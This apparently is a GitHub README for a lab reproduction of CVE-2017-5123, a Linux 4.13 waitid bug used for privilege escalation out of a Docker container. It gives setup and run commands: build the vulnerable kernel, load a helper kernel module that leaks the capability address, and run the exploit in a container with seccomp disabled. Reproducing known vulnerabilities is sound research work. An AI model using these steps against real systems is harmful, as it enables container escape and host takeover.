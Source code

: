 # container-privilege-escalation

This repository has the sources and utilities required to exploit the 
CVE-2017-5123 vulnerability which affected Linux kernel 4.13. A more 
detailed explanation of the exploit can be found on other websites such 
as ... and ...
We will use Ubuntu 16.04 for this exploit.

# Compile and install vulnerable Linux kernel

We need to first compile and install a vulnerable version of the kernel. 
We have used version 4.13. It's best if you leave enough space in your 
VM for compiling the kernel and the /boot directory.

```
sudo apt install build-essential ncurses-base libncurses5-dev \
		git build-essential kernel-package fakeroot \
		libssl-dev ccache bison flex libelf-dev dwarves
tar -xvf linux-4.13.tar.gz
cd linux-4.13
make
sudo make modules_install
sudo make install
reboot
```

After the system has rebooted we will validate that the correct kernel
version has booted.

```
uname --kernel-release
```

Unprivileged users do not have access to the kernel logs in more recent 
Linux kernel versions. Just to make sure that it is the case for our kernel 
we run the following command.

```
sudo -s
echo 1 > /proc/sys/kernel/dmesg_restrict
```

# Compile kernel module and install

We will be using a kernel module as an oracle to extract the capability base
address instead of trying to extract it through any type of information 
leakage to simplify the attack.

```
cd oracle/src/char_dev_kernel_module
make
gcc -o oracle oracle
sudo insmod process_cred_oracle.ko
```

# Compile the exploit code
The userspace program which invokes the vulnerable system call (`waitid`) 
can be found in the kernel-exploit folder.

```
cd kernel-exploit
make
```

# Launch exploit inside container

We are going to launch a container which has access to the kernel exploit 
userspace program which was compiled and is available in the kernel-exploit 
folder.

```
sudo docker save -o [path-to-repo]/cve.tar.gz cve:1.0
sudo docker run --security-opt seccomp=unconfined -v [path-to-repo]/kernel-exploit/:/home/user_space_program -v [path-to-repo]/linux-4.13/lib:/home/lkms -it cve:1.0 bash
```

Now that we are inside the container, we will first create a dummy user 
with the highest possible uid and use that user to launch our exploit.
```
useradd -u 4294967294 dummy
usermod -aG sudo dummy
passwd dummy

su dummy
bash
cd /home/user_space_program
./user_prog
```

After we launch the program in the container, we need to switch to the host 
and extract its pid and then pass the pid to the oracle to extract the 
capability base address.

**ON THE HOST:**
```
ps aux | grep user_prog
cd [path-to-repo]/oracle/src
./oracle [pid]
```
Now we will pass the capability address to the running `user_prog` in the 
container.
When the exploit is finished we can run two commands, `insmod` which installs 
the `test_firmware.ko` kernel module, `dmesg` which shows the kernel logs or
`exit` which will exit the exploit.
